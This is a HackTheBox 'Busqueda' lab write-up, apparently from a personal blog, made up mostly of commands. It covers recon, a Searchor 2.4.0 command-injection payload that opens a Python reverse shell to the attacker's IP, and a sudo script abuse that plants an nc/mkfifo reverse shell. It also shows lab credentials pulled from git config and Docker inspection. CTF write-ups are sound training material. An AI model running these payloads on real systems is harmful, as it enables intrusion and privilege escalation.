 ```yaml
---
layout: post
title: HackTheBox Busqueda
subtitle: Busqueda WriteUp
author: g3rm
categories: 
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
  - Linux
sidebar:
---
```



## Summary
![](/assets/images/posts/2025-03-21-Busqueda/a73dbffe4ae24d783de043ae29185d39_MD5.jpeg)
## Target - 10.129.228.217
### Nmap
```bash
nmap -sC -sV -Pn -p- -oN Busqueda 10.129.228.217
```
![](/assets/images/posts/2025-03-21-Busqueda/b3817d553dd4d22d16cf8b0efa0f03c2_MD5.jpeg)
### WEB
```bash
# host 등록
echo "10.129.228.217 searcher.htb" | sudo tee -a /etc/hosts

# dir fuzz
gobuster dir -u searcher.htb -w /usr/share/wordlists/dirb/common.txt

# subdomain fuzz
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.searcher.htb" -u http://searcher.htb -fc 302

# opensource version
searchor 2.4.0
```
![](/assets/images/posts/2025-03-21-Busqueda/ae88064ccb2df41d3a185b7b1dd63698_MD5.jpeg)
![](/assets/images/posts/2025-03-21-Busqueda/d527baf6f626258ec6a5aefbdfb75d0f_MD5.jpeg)

### Searchor 2.4.0 Exploit
```bash
# https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection
'),exec('import+socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.36",8000));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")')#
```
![](assets/images/posts/2025-03-21-Busqueda/116033061580fae80a50f281c20e5c3c_MD5.jpeg)

### Privilege Escalator
```bash
# upgrade tty
python3 -c 'import pty; pty.spawn("/bin/bash")'

# 숨김 파일 찾기 
find / -type f -name ".*" -exec ls -l {} \; 2>/dev/null | grep svc

# cody == svc
cat /home/svc/.gitconfig

# web group 파일들 찾기
find / -group www-data -exec ls -ldb {} \; 2>/dev/null

# git config 열람
cat /var/www/app/.git/config

# svc : jh1usoih2bkjaspwe92
sudo -l
sudo /usr/bin/python3 /opt/scripts/system-checkup.py -h

# docker inspect : https://docs.docker.com/engine/cli/formatting/
sudo python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' gitea | jq .
sudo python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' mysql_db | jq .

# mysql connect gitea : yuiu1hoiu4i5ho1uh
mysql -u gitea -pyuiu1hoiu4i5ho1uh -h 172.19.0.3 gitea

## in mysql
select name, email, passwd from user;

# in web
## administrator : yuiu1hoiu4i5ho1uh / 재사용 되는 지 확인
echo "10.129.228.217 gitea.searcher.htb" | sudo tee -a /etc/hosts
http://gitea.searcher.htb/cody/Searcher_site.git

# full-checkup 로직 확인 및 Abuse
echo -e "\#\!/bin/bash\n\nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.36 4444 >/tmp/f" > full-checkup.sh
chmod +x full-checkup.sh
sudo python3 /opt/scripts/system-checkup.py full-checkup
```
![](/assets/images/posts/2025-03-21-Busqueda/9fbef62124fd4ea70270d25a9e5c24cf_MD5.jpeg)
![](/assets/images/posts/2025-03-21-Busqueda/19944986f62535d922b99895ec6831b6_MD5.jpeg)
![](/assets/images/posts/2025-03-21-Busqueda/83b4b2d1100c52bec7b0a8012af85436_MD5.jpeg)

![](/assets/images/posts/2025-03-21-Busqueda/04811c4fabbd651f3e83a6235188d013_MD5.jpeg)

![](/assets/images/posts/2025-03-21-Busqueda/664165d9e5013cf703cb01bb113f3af9_MD5.jpeg)![](/assets/images/posts/2025-03-21-Busqueda/1ea6a57afc343c3fef42ed16746a7e30_MD5.jpeg)
![](assets/images/posts/2025-03-21-Busqueda/9d0cfd2413ed62917f246c9ddb5ec3b6_MD5.jpeg)
![](assets/images/posts/2025-03-21-Busqueda/5e3b73d1e6163d460302eb52671092d4_MD5.jpeg)
![](assets/images/posts/2025-03-21-Busqueda/65ff7bcd2b912a2a00de613dc6410d87_MD5.jpeg)
![](assets/images/posts/2025-03-21-Busqueda/9429e95a836018be908e461439bff6b7_MD5.jpeg)![](assets/images/posts/2025-03-21-Busqueda/489bc426f4f2e98d390eadad6483fc11_MD5.jpeg)